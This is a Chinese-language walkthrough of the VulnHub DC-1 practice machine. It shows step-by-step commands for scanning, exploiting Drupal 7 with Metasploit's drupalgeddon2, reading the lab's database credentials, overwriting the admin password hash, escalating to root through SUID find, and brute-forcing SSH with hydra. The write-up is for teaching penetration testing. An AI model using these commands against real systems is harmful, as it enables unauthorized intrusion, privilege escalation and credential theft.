# 一、环境搭建

## 1、靶机描述

~~~ txt
DC-1 is a purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing.
It was designed to be a challenge for beginners, but just how easy it is will depend on your skills and knowledge, and your ability to learn.
To successfully complete this challenge, you will require Linux skills, familiarity with the Linux command line and experience with basic penetration testing tools, such as the tools that can be found on Kali Linux, or Parrot Security OS.
There are multiple ways of gaining root, however, I have included some flags which contain clues for beginners.
There are five flags in total, but the ultimate goal is to find and read the flag in root's home directory. You don't even need to be root to do this, however, you will require root privileges.
Depending on your skill level, you may be able to skip finding most of these flags and go straight for root.
Beginners may encounter challenges that they have never come across previously, but a Google search should be all that is required to obtain the information required to complete this challenge.
~~~

~~~ txt
根据描述信息我们可以知道本靶场环境总共有5个flag。
~~~

## 2.下载靶场环境

~~~ txt
靶场下载地址：https://www.vulnhub.com/entry/dc-1,292/
~~~

~~~ txt
下载下来的文件如下
~~~



## 3、启动靶场环境

~~~ txt
下载下来是虚拟机压缩文件，直接用Vmvare导入就行。
~~~



设置虚拟机名称



~~~ txt
导入中
~~~



~~~ txt
导入完成之后打开后把网络模式设置为NAT模式。
~~~



~~~ txt
虚拟机开启之后界面如下，我们不知道ip，需要自己探活，网段知道：192.168.223.0/24
~~~



# 二、渗透靶场

~~~ txt
本环境重在在于如下两个知识点
Drupal 7 漏洞利用
find 提权
~~~

## 1.目标

~~~ txt
目标就是我们搭建的靶场，靶场IP为：192.168.223.0/24
~~~

## 2.信息收集：寻找靶机真实IP

~~~ cmd
nmap -sP 192.168.233.0/24
~~~



~~~ txt
kali linux的IP为：192.168.223.128
所以分析可得靶机IP为：192.168.223.131
~~~

## 3.信息收集：探端口及服务

~~~ cmd
nmap -v -p- -A 192.168.223.131
~~~





~~~ txt
发现开放了22端口，开放了ssh服务，OpenSSH 6.0p1
发现开放了80端口，存在web服务，Apache httpd 2.2.22，Drupal 7
发现开放了111端口，开放了rpcbind服务
~~~

## 4. 访问web站点

~~~ txt
http://192.168.223.131:80
~~~

~~~ txt
发现是一个电信的drupal服务，根据nmap结果可知当前运行的是Drupal 7的CMS
~~~



## 5. 用MSF渗透

~~~ txt
典型的drupal，由于我们这里是老外搭建的靶机，所以就纯kali渗透即可，启动Metersploit
MSF存在drupal模块，尝试使用msf渗透
~~~

### 1. MSF简单命令介绍

~~~ cmd
msfconsole		进入MSF控制台
search 			搜索相应模块
use           	对应模块
show options  	查看信息
set RHOST  		远程主机ip
run           	攻击
~~~

### 2. 搜索Drupal 7的漏洞

~~~ txt
搜索Drupal 7的漏洞发现可利用的漏洞很多
~~~

~~~ cmd
searchsploit Drupa 7
~~~



### 3.进入MSF控制台搜索drupal模块

~~~ txt
进入MSF控制台
~~~

~~~ cmd
msfconsole
~~~



~~~ txt
搜索drupal模块
~~~

~~~ cmd
search drupal
~~~



### 4. 选择模块进行测试

~~~ cmd
use exploit/unix/webapp/drupal_drupalgeddon2
~~~



### 5. 设置靶机IP运行msf

~~~ cmd
set RHOSTS 192.168.223.131
~~~



~~~ txt
运行msf
~~~

~~~ cmd
run
~~~



### 6. 进入shell

~~~ cmd
shell
~~~



### 7.查看用户权限

~~~ cmd
id
whoami
~~~



### 8.发现flag4.txt文件

~~~ txt
进入home目录，发现flag4.txt文件，提示需要提升权限
~~~



### 9. 使用python反弹一个交互式shell

~~~ cmd
python -c "import pty;pty.spawn('/bin/bash')"
~~~



### 10. 发现flag1文件

~~~ txt
查看www目录下文件，发现flag1.txt文件，打开发现提示信息，内容提示寻找站点的配置文件
~~~

~~~ cmd
ls
cat flag1.txt
~~~



### 11.发现flag2

~~~ 
Drupal的默认配置文件为 /var/www/sites/default/settings.php
~~~



~~~ txt
查看文件内容
~~~

~~~ cmd
cat /var/www/sites/default/settings.php
~~~

~~~ txt
发现了flag2和数据库的账号密码
~~~

~~~ txt
/**
 *
 * flag2
 * Brute force and dictionary attacks aren't the
 * only ways to gain access (and you WILL need access).
 * What can you do with these credentials?
 *
 */

$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
~~~



~~~ txt
flag2提示，提升权限为root来查看敏感文件，或者直接爆破
~~~

~~~ txt
先进入数据库查看
~~~

~~~ cmd
mysql -u dbuser -p
~~~



~~~ txt
查看数据库，切换到drupaldb数据库
~~~

~~~ cmd
show databases;
use drupaldb;
~~~



~~~ txt
查看查找默认的Drupal user 表，发现admin信息
~~~

~~~ cmd
show tables;
~~~







~~~ cmd
select * from users;
~~~



~~~ txt
可看到admin账号消息
~~~

~~~ cmd
quit;
~~~

~~~ txt
退出mysql
~~~



~~~ txt 
置换密码的方法：http://drupalchina.cn/node/2128
~~~



~~~ txt
站点路径下执行:php scripts/password-hash.sh 新密码
~~~

~~~ cmd
www-data@DC-1:/var/www$ php scripts/password-hash.sh 123456
php scripts/password-hash.sh 123456

password: 123456                hash: $S$DzCNLkYpBlLEdu4lfpfLwHSCDbrptr23sI1D4dmWltNGgTLbZVBE
~~~



~~~ txt
然后在进入数据库中把密码字段进行替换
进入mysql，输入密码，切换到drupaldb数据库
~~~

~~~ cmd
mysql -u dbuser -p
R0ck3t
use drupaldb
~~~



~~~ txt
将pass字段进行替换
~~~

~~~ sql
update users set pass="$S$DzCNLkYpBlLEdu4lfpfLwHSCDbrptr23sI1D4dmWltNGgTLbZVBE" where name="admin";
~~~



### 12. 登录站点

~~~ txt
访问站点:http://192.168.223.131/
~~~



~~~ txt 
用刚才修改后的账号密码登录：
admin
123456

最后成功登录
~~~



### 13.发现flag3

~~~ txt
随便翻一翻，即可找到flag3
~~~



~~~ txt
点击flag3进入，发现提示信息：
	Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow.
	大致意思是提权并提示 -exec，想到suid提权 find 命令
~~~



~~~ txt
使用命令查看 suid 权限的可执行二进制程序
find / -perm -4000 2>/dev/null
~~~

~~~ txt
这个命令用于在 Linux/Unix 系统中查找设置了 SUID (Set User ID) 位的文件。让我们分解一下各个部分：
	find: 这是命令本身，用于在目录树中搜索文件和目录。
	/: 这是 find 命令的起始搜索路径。它指定从根目录 (/) 开始搜索整个文件系统。
	-perm: 这是 find 的一个选项，用于根据文件权限进行匹配。
	-4000: 这是 -perm 选项的参数，它指定了要匹配的权限模式。
		4000 是一个八进制数字，代表 SUID 位。当一个可执行文件设置了 SUID 位时，无论哪个用户执行它，该程序都会以文件所有者的权限运行（而不是执行它的用户的权	限）。这对于需要临时提升权限执行特定任务的程序（如 passwd 命令修改密码文件）非常有用，但也是潜在的安全风险点。
		前面的减号 (-) 是权限匹配模式的关键。它表示：匹配权限模式中包含 4000 (SUID) 位的文件。也就是说，只要文件的权限中有 SUID 位被设置（无论其他权限位是什么），它就会被匹配上。例如：
			权限 -rwsr-xr-x (八进制 4755) 会被匹配（s 在所有者执行位表示 SUID）。
			权限 -r-S--x--x (八进制 4111) 也会被匹配（大写的 S 表示 SUID 被设置但所有者没有可执行权限，虽然这很罕见且通常无效）。
			权限 -rwxr-xr-x (八进制 0755) 不会被匹配（没有 s 或 S）。
	2>/dev/null: 这部分是错误输出重定向。
		2>: 表示将标准错误输出 (stderr, 文件描述符为 2) 重定向。
		/dev/null: 这是一个特殊的设备文件，写入它的任何数据都会被丢弃（“黑洞”）。
		作用： find / 命令搜索整个文件系统时，会遇到许多当前用户没有权限访问的目录（如 /root, /proc 下的某些文件等）。尝试访问这些目录会产生大量的“Permission denied”错误消息，这些消息会输出到 stderr（通常是你的终端屏幕），干扰你查看真正的搜索结果。2>/dev/null 的作用就是将所有这些错误信息丢弃掉，只让正常的结果（stdout，即找到的文件路径）显示在屏幕上，使输出更清晰易读。

总结命令功能：
	从根目录 (/) 开始，递归搜索整个文件系统，找出所有设置了 SUID 位的文件，并将搜索过程中产生的任何错误信息（主要是权限不足的错误）丢弃，只显示有效的搜索结果。

为什么这个命令有用？

	安全审计： SUID 位赋予程序特殊的权限提升能力。攻击者可以利用设置了 SUID 位且存在漏洞的程序或配置不当的 SUID 程序（如属于 root 但普通用户可写）来提升权限。定期检查系统上哪些文件设置了 SUID 位是基本的安全实践。
	故障排查： 了解哪些程序依赖 SUID 位工作。

重要提示：
	运行 find / 需要一定时间，因为它会遍历整个文件系统。
	通常需要 root 权限才能找到系统上所有设置了 SUID 位的文件，否则很多受保护的目录无法访问，结果会不完整。普通用户运行该命令的结果会受到其权限限制。
	找到 SUID 文件后，应仔细检查这些文件的必要性、所有权和安全性。不必要的 SUID 位应该被移除 (chmod u-s filename)。修改系统关键文件的 SUID 位需极其谨慎。
~~~



~~~ txt
使用命令测试，发现为root权限
~~~

~~~ cmd
touch 666
ls
find / -name 666 -exec "whoami" \;
~~~





### 14.发现最后的flag文件

~~~ txt
我们切换语句进入shell，执行whoami查看当前权限，执行ls查看当前目录下文件，切换到root目录，查看文件，发现cat thefinalflag.txt文件。
~~~

~~~  cmd
find / -name 666 -exec "/bin/sh" \;   
whoami
ls
cd /root
ls
~~~



~~~ txt
查看thefinalflag.txt文件:
	cat thefinalflag.txt
~~~



### 15.发现flag4

~~~ txt
此时我们查看 /etc/passwd 文件，发现存在 flag4 用户，我们也可以使用 hydra 进行爆破
~~~

~~~ cmd
cat /etc/passwd
~~~



~~~ cmd
hydra -l flag4 -P /root/Desktop/pass.txt ssh://192.168.223.131
-l 指定用户名
-P 加载密码字典（自定义)
ssh://ip 指定使用协议和ip地址
~~~



~~~ txt
SSH连接登录，拿到flag4权限
~~~

~~~ cmd
ssh flag4@192.168.223.131
~~~



# 三、相关资源

+ [[ MSF使用实例 \] 利用永恒之蓝(MS17-010)漏洞导致windows靶机蓝屏并获取靶机权限_永恒之蓝 蓝屏-CSDN博客](https://blog.csdn.net/qq_51577576/article/details/127436548)

+ [简谈SUID提权 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/272617.html)

+ [DC: 1 ~ VulnHub靶场下载地址](https://www.vulnhub.com/entry/dc-1,292/)

+ [[ vulnhub靶机通关篇 \] 渗透测试综合靶场 DC-1 通关详解 (附靶机搭建教程)_vulnhub靶场-CSDN博客](https://blog.csdn.net/qq_51577576/article/details/129469819)

+ [Nmap参考指南(Man Page)](https://nmap.org/man/zh/index.html)

+ [Metasploit官方文档](https://docs.metasploit.com/)

+ [Kali官方文档](https://www.kali.org/docs/)

